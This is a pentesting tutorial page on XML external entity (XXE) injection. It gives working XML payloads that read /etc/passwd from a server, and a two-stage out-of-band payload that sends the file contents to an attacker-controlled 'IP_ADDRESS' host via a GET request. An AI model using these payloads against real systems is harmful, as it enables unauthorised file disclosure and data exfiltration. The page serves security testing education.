 ```yaml
---
title: XML external entities
tags:
  - web-app
  - pentesting
  - xml
  - injection
---
```


This section covers pwning XML parsers with **XML external entities (XXE)**
injection attacks. We can use XXE injection attacks to uncover information
disclosure, server-side request forgery (SSRF), remote command injection, and
remote code execution vulnerabilities in web applications.

## Testing for XXE

Here's an example for testing for XXE in an XML parser for a web application.
If we're providing the following input to a web application, and the internal
entity `lastname` is used to render the output for the `User` element, we know
we can inject XML entities for the application to process:

```xml
<?xml version="1.0" ?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY lastname "Hacker">
]>
<User>
  <lastName>&lastname;</lastName>
  <firstName>Victim</firstName>
</User>
```

### Retrieving files

After verifying the vulnerability, we can use it to conduct information
disclosure, targeting content on the host's file system:

```xml
<?xml version="1.0" ?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY lastname SYSTEM "file:///etc/passwd">
]>
<User>
  <lastName>&lastname;</lastName>
  <firstName>Victim</firstName>
</User>
```

We determine where this content is rendered, and then we can retrieve the
contents of the file from the web application.

### Error-based exploitation

If the information we're targeting isn't rendered by the web application in a
way we can access after exploitation, we can use **error-based exploitation**
to possibly disclose the information we're targeting. For example, `lastname`
might have a maximum character length for the web application's database used
to store `User`s. If we request a file on the host system with a size that
exceed this limit, it's likely the web application will provide us with an
error, leaking the contents of the file we're targeting.

### Out-of-band exploitation

We can also conduct SSRF, coercing the victim machine to attempt to load
external resources from our server, disclosing information when the victim
executes a `GET` request. Here's an example of a payload that causes the victim
to request our XML file and parse it, causing the victim to request a second
stage payload that discloses the information we're targeting via a `GET`
request.

First stage payload:

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE oob [
<!ENTITY % base SYSTEM "http://IP_ADDRESS/second-stage-payload.dtd">
%base;
%external;
%exfil;
]>
<entity-engine-xml>
</entity-engine-xml>
```

Second stage payload:

```xml
<!ENTITY % content SYSTEM "file:///etc/passwd">
<!ENTITY % external "<!ENTITY &#37; exfil SYSTEM 'http://IP_ADDRESS/out?%content;'>" >
```

The first payload will request the second stage payload, which will attempt to
acquire the contents of the `/etc/passwd` file. Then the second stage payload
will attempt to acquire a resource from our web server, and we render the
content of the file in the `URL` the victim is requesting. This SSRF attack
leaks the contents of the file when the `GET` request reaches our web server.

Due to how URLs are parsed, it's likely a portion of this request will fail.
Unfortunately **out-of-band exploitation** for XXE vulnerabilities is a last
resort, and not always the most effective approach.
